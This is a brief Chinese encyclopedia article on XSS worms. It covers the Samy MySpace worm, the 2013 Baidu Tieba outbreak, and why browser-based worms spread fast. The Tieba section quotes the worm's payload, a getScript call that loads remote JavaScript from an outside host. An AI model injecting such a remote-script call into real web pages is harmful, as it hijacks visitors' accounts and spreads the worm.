 {{multiple issues|
{{cleanup-jargon|time=2013-05-19T15:34:24+00:00}}
{{expand|time=2013-05-19T15:34:24+00:00}}
{{refimprove|time=2013-05-19T15:34:24+00:00}}
}}
xss蠕虫（cross site scripting worm）是一种跨站病毒，通常由脚本语言[[Javascript|Javascript]]写成，它借由网站访问者传播

==历史==
历史第一个[[XSS|XSS]]蠕虫是针对网站[[Myspace|Myspace]]的Samy，它在20小时内感染了100万个账户，作者Samy Kamkar之后被起诉

=== 新浪微博 ===
见[[对新浪微博的争议#XSS.E6.BC.8F.E6.B4.9E|对新浪微博的争议#XSS.E6.BC.8F.E6.B4.9E]]

=== 百度贴吧 ===
2013年5月19日，  [[百度贴吧|百度贴吧]]转帖功能再度出现xss漏洞，大量贴吧内充斥接近满版面，  包含代码getScript（'//xss.retaker.me/1.js'）为标题的帖子，当已登陆用户打开这样的帖子，用户所持账户便以相同方式在多个贴吧转帖原作者的帖，部分网络安全相关人士认为贴吧爆发了大规模XSS蠕虫感染<ref>{{Cite web |url=http://www.wooyun.org/bugs/wooyun-2013-024106 |title=百度贴吧XSS蠕虫大量爬行 |access-date=2013-05-19 |archive-date=2020-08-11 |archive-url=https://web.archive.org/web/20200811153307/http://www.wooyun.org/bugs/wooyun-2013-024106 }}</ref> <ref>[[:google:+retaker+xss+贴吧&ie=utf-8&oe=utf-8&aq=t&rls=org.mozilla:en-US:official&client=firefox-a|谷歌搜索]]</ref> <ref>{{Cite web |url=http://s.weibo.com/weibo/xss%2520%25E8%25B4%25B4%25E5%2590%25A7?topnav=1&wvr=5&b=1 |title=新浪微博, "xss贴吧" |access-date=2013-05-19 |archive-date=2019-02-07 |archive-url=https://web.archive.org/web/20190207072631/https://s.weibo.com/weibo/xss%2520%25E8%25B4%25B4%25E5%2590%25A7?topnav=1&wvr=5&b=1 }}</ref>

2014年3月9日，  [[百度贴吧|百度贴吧]]转帖功能再度出现xss漏洞

== 性质 ==
由于XSS蠕虫基于[[浏览器|浏览器]]而不是[[操作系统|操作系统]]，取决于其依赖网站的规模，它可以在短时间内达到对巨大数量的计算机感染

== 参考 ==
<references/>

[[Category:注入漏洞|Category:注入漏洞]]
[[Category:蠕虫病毒|Category:蠕虫病毒]]